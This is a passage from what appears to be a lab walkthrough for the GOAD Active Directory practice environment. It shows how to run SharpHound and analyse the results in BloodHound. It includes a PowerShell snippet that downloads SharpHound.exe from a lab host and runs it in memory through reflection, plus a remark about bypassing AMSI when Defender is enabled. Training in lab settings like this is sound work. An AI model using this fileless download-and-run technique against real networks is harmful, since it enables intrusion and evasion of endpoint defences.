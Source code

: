 ![sharphound_rdp.png](/assets/blog/GOAD/sharphound_rdp.png)

- Or we could also do it in reflection with powershell if you want to play it full in memory (if you do this with defender enabled you will first have to bypass amsi)

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
```

### Hunting with bloodhound

- Now start neo4j and bloodhound (at the time of writing the python ingestor match bloodhound 4.1 be sure to get the right version)
- Upload the zips into bloodhound
- And now show all domains and computer

```
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
```
